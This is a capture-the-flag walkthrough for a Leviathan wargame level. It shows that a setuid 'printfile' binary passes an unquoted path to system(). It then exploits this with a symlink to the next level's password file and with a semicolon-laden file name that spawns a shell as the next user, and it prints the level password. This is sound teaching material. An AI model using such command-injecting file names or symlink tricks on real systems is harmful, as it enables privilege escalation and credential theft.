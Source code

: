 Apparently it only checks and prints the first parameter. And if we create a
file with a space in the name:

```bash
leviathan2@leviathan:~$ mkdir -p /tmp/deleteme
leviathan2@leviathan:~$ touch /tmp/deleteme/a\ test
leviathan2@leviathan:~$ ls -l /tmp/deleteme
total 0
-rw-r--r-- 1 leviathan2 root 0 Jan  9 18:42 a test
leviathan2@leviathan:~$ ltrace ./printfile /tmp/deleteme/a\ test 
__libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
access("/tmp/deleteme/a test", 4)                                        = 0
snprintf("/bin/cat /tmp/deleteme/a test", 511, "/bin/cat %s", "/tmp/deleteme/a test") = 29
geteuid()                                                                = 12002
geteuid()                                                                = 12002
setreuid(12002, 12002)                                                   = 0
system("/bin/cat /tmp/deleteme/a test"/bin/cat: /tmp/deleteme/a: No such file or directory
/bin/cat: test: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                   = 256
+++ exited (status 0) +++
leviathan2@leviathan:~$ 
```

It checks the file access of the file I just created, it succeeds and then it
passes it to `cat` but **as two different files**.

> Note: do not use `ltrace` for the commands that are supposed to switch user,
as the scope seems to be messed up and you will not properly switch. This got me
scratching my head and researching for about half an hour.

### Method 1

If we create a softlink for the first part of the name, the password is shown:

```bash
leviathan2@leviathan:~$ cd /tmp/deleteme
leviathan2@leviathan:/tmp/deleteme$ ln -s /etc/leviathan_pass/leviathan3 /tmp/deleteme/a
leviathan2@leviathan:/tmp/deleteme$ ~/printfile "/tmp/deleteme/a test"
Ahdiemoo1j
/bin/cat: test: No such file or directory
```

### Method 2

We can also inject code. If instead of the space we use a semicolon we can run
commands as **leviathan3**.

```bash
leviathan2@leviathan:/tmp/deleteme$ touch "some;bash"
leviathan2@leviathan:/tmp/deleteme$ ~/printfile "some;bash"
/bin/cat: some: No such file or directory
leviathan3@leviathan:/tmp/deleteme$ whoami
leviathan3
leviathan3@leviathan:/tmp/deleteme$ cat /etc/leviathan_pass/leviathan3
Ahdiemoo1j
```
